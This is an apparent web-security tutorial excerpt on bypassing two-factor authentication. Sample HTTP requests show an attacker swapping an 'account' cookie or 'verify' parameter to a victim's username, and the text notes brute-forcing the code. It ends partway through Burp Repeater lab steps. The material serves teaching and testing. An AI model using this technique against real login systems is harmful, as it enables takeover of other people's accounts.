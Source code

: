 Sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step.
## Example Logic
A user logs in with their credential in the first step as follows:
```http
POST /login-steps/first HTTP/1.1
Host: target-website.com
...
username=carlos&password=1234
```
They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:
```http
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```
```http
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=carlos
...
verification-code=qwerty
```
In this case, the attacker could login using their own credentials but then change the value of the `account` cookie to any username when submitting the verification code.
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=admin
...
verification-code=qwerty
```
This is extremely dangerous if the attacker is then able to brute force the verification code, as it would allow them to login to any user accounts based entirely on their username.
## Exploiting Flawed Logic
1. Notice that in `POST /login2` request, the `verify` parameter is used to determine which user account is being accessed.
2. Send that request to Burp Repeater, and change `POST` to `GET` and `verify` parameter to the target username. This ensures that a temporary 2FA code is generated for the target username.